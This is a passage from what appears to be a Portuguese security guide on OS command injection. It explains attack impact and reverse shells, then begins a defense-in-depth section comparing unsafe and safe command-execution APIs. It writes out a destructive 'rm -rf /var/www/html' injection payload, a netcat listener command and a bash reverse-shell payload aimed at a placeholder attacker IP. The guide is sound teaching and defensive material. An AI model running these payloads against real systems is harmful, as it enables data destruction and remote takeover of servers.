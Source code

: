 Além de ler dados, os invasores podem modificá-los ou destruí-los. Um *payload* simples, mas destrutivo, como `& rm -rf /var/www/html &`, poderia apagar todo o site, causando negação de serviço e perda de dados significativa.

### 4.3. Alcançando a Persistência: O Shell Reverso

O objetivo final para muitos invasores é obter um *shell* interativo, que fornece controle persistente e flexível sobre o servidor. Isso é frequentemente alcançado através de um "shell reverso".

A lógica por trás de um *shell* reverso é contornar as regras de *firewall*. Em uma configuração típica, um *firewall* bloqueia conexões de entrada para o servidor em portas não autorizadas. Um "*bind shell*", onde o invasor se conecta ao servidor, seria provavelmente bloqueado. No entanto, as regras de *firewall* para conexões de saída são muitas vezes menos restritivas. Um *shell* reverso explora isso, fazendo com que o servidor comprometido se conecte de volta à máquina do invasor.

Os passos para estabelecer um *shell* reverso são os seguintes:

1. **Configuração do Ouvinte (Listener)**: O invasor configura um ouvinte em seu próprio servidor público usando uma ferramenta como o *netcat* (ou `nc`). O comando `nc -nlvp 4444` instrui o *netcat* a ouvir por conexões de entrada na porta 4444.
2. **Injeção do Payload**: O invasor injeta um *payload* na aplicação vulnerável que iniciará a conexão de saída.

**Payload de Shell Reverso em Bash**:

`& /bin/bash -i >& /dev/tcp/IP_DO_INVASOR/4444 0>&1 &`

Quando o servidor vulnerável executa este comando, ele inicia uma conexão TCP para o IP do invasor na porta 4444 e redireciona sua entrada, saída e erro padrão para este soquete de rede. O resultado é que o invasor recebe um *prompt* de comando totalmente interativo no servidor comprometido. A partir deste ponto, o invasor estabeleceu uma presença significativa e pode prosseguir com a escalada de privilégios, movimento lateral dentro da rede e exfiltração de dados em larga escala.

## Seção 5: Uma Estratégia de Defesa em Profundidade em Múltiplas Camadas

Esta seção fornece um guia abrangente para prevenir e mitigar a Injeção de Comandos, estruturado como um modelo de defesa em profundidade, desde os controles mais eficazes (primários) até os suplementares (terciários).

### 5.1. Defesa Primária: Codificação Segura e APIs Seguras

A regra de ouro e a prevenção mais eficaz é evitar completamente a execução direta de comandos do SO a partir do código da aplicação, sempre que uma API nativa da linguagem mais segura estiver disponível. As linguagens de programação modernas oferecem bibliotecas para realizar a maioria das tarefas do sistema (como operações de arquivo, rede, etc.) sem a necessidade de invocar um shell externo.

A tabela a seguir compara funções de execução de comandos inseguras com suas alternativas seguras em várias linguagens de programação comuns.

| Linguagem | Função Insegura (Vulnerável à Injeção) | Alternativa Segura (Previne a Injeção) | Princípio de Segurança |
|-----------|---------------------------------------|---------------------------------------|-----------------------|
| Python | `os.system(command_string)`<br>`subprocess.run(command_string, shell=True)` | `subprocess.run([command, arg1, arg2])` | Passa os argumentos como uma lista, evitando a interpretação do shell. |
| Java | `Runtime.getRuntime().exec(String command)` | `Runtime.getRuntime().exec(String[] cmdarray)`<br>`new ProcessBuilder("cmd", "arg1", "arg2")` | Constrói o processo com argumentos separados, evitando a concatenação de strings. |
| PHP | `exec(string)`, `shell_exec(string)`, `system(string)` | `proc_open(array $command,...)` (PHP 7.4.0+) | Permite passar o comando e os argumentos como um array, contornando o shell. |
| C/C++ | `system(const char *command)` | `execvp(const char *file, char *const argv[])` | Substitui a imagem do processo; os argumentos são passados separadamente. |
